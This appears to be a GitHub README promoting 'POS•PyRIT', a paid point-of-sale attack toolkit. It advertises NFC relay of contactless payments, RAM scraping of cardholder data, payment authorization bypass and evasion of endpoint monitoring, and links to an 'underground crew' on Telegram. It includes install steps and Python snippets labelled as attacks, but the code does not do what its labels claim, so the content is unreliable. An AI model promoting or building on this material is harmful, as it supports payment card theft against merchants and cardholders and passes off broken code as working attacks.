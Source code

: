

POS•PyRIT ⚔️💳
The Ultimate Tool for Point-of-Sale Penetration & Recon
POS•PyRIT (Point-of-Sale Python Recon & Interception Toolkit) is an elite POS exploitation framework designed to explore, analyze, and compromise vulnerabilities in modern Point-of-Sale systems. Whether you're performing NFC relays, RAM scraping, or transaction spoofing — this tool is built to make your job faster and stealthier. 🏴‍☠️

🔥 Features
📡 NFC Relay Attacks: Intercept contactless transactions using near-field communication.
🧠 RAM Scraper: Extract sensitive cardholder data directly from memory in real-time.
🔓 Authorization Bypass: Override payment approval logic in select POS firmware.
🕶 Stealth Mode: Designed to evade most standard endpoint defenses and monitoring.
📱 Runs on Android: Fully compatible with non-rooted Android devices using Nfc-Gate.

🚀 Getting Started
✅ Prerequisites
Python 3.x
NFC-enabled Android phone
Nfc-Gate App installed

🔧 Installation
Clone the Repo git clone https://github.com/yourusername/pos_pyrIT.git
cd pos_pyrIT

Build Dependencies ./build/build.sh

Run Installer ./scripts/install.sh


🎯 Execution
./scripts/execute.sh

Ensure NFC is enabled and the Android device is connected. Follow interactive prompts.

🧩 Code Examples
NFC Relay Snippet
import nfc, time

def nfc_relay():
    clf = nfc.ContactlessFrontend('usb')
    while True:
        clf.connect(rdwr={'on-connect': lambda tag: tag.dump()})
        time.sleep(1)

if __name__ == "__main__":
    nfc_relay()


RAM Scraper
import psutil, socket, pickle

def scrape_ram():
    process = psutil.Process()
    return process.memory_info()

def send_data(data):
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect(('localhost', 12345))
        s.sendall(pickle.dumps(data))

if __name__ == "__main__":
    data = scrape_ram()
    send_data(data)


Payment Bypass Logic
from scapy.all import *
import requests

def bypass_authorization():
    pkt = IP(dst="192.168.1.1") / TCP(dport=443, flags="PA")
    send(pkt)
    print(requests.get("https://example.com/api/payment").text)


🎁 Limited-Time Access
POS•PyRIT is FREE for the first 30 days. After that, unlock advanced features in the Pro release for $199.99.
➡️ Join our underground crew: Telegram - Sleazy Methods LLC

🛠️ Support
Need help or want updates?
📲 Telegram Channel

📜 License
MIT License. See LICENSE for full terms.

🧠 Know the Risks
POS•PyRIT is for educational and authorized security testing only. Unauthorized use is strictly prohibited and likely illegal.


